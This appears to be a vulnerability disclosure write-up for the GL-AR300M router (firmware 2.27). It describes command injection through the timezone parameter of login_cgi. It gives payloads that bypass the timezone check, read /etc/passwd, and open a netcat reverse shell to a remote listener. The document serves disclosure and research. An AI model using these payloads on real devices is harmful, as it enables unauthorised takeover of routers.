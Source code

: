 ## Preparation  

Product: GL-AR300M  

Firmware version: 2.27

## Command Injection  

### Hijack HTTP Request  

The first time we start the device and login the web interface. Let's set the language and the timezone.  

![](images/img1.jpg)

![](images/img2.jpg)

Using Fiddle tool to capture the HTTP request:  

![](images/img3.jpg)

When we perform this action the login_cgi script takes the content of the timezone parameter and inserts it into the /tmp/TZ file:

![](images/img4.jpg)

### Request Forgery  

If we try to insert a value not present in the list of timezones, the script blocks us:  

![](images/img6.png)

![](images/img7.png)

![](images/img5.jpg)

We can bypass this and write on TZ file what we want, using this payload:  

```  
|echo+TEST||a+#'+ ||a #
```

![](images/img8.jpg)

Replace the payload with:  

```  
|echo+TEST||a+#'+|echo `cat /etc/passwd` ||a #
```

![](images/img11.jpg)

So I can execute the command. On my remote machine, I am listening the port "12345" via `nc -lvp 12345`. Now, let's replace the payload with netcat. 

```  
nc 192.168.17.130:12345 -e /bin/ash
```

![](images/img9.jpg)

For now, I have got the router's shell on my remote machine.  

![](images/img10.jpg) 